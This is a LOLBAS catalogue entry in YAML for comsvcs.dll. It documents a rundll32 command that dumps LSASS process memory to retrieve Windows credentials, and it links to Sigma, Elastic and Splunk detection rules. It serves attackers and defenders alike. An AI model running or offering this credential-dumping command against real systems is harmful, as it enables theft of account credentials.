 ```yaml
---
Name: Comsvcs.dll
Description: COM+ Services
Author: LOLBAS Team
Created: 2019-08-30
Commands:
  - Command: rundll32 C:\windows\system32\comsvcs.dll MiniDump [LSASS_PID] dump.bin full
    Description: Calls the MiniDump exported function of comsvcs.dll, which in turns calls MiniDumpWriteDump.
    Usecase: Dump Lsass.exe process memory to retrieve credentials.
    Category: Dump
    Privileges: SYSTEM
    MitreID: T1003.001
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: c:\windows\system32\comsvcs.dll
Code_Sample:
  - Code: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/1ff5e226ad8bed34916c16ccc77ba281ca3203ae/rules/windows/process_creation/win_process_dump_rundll32_comsvcs.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b81839e3ce507df925d6e583e569e1ac3a3894ab/rules/windows/process_access/sysmon_lsass_dump_comsvcs_dll.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_rundll32_process_dump_via_comsvcs.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/5bdf70e72c6cd4547624c521108189af994af449/rules/windows/credential_access_cmdline_dump_tool.toml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/dump_lsass_via_comsvcs_dll.yml
Resources:
  - Link: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/
Acknowledgement:
  - Person: modexp
    Handle:
---
```

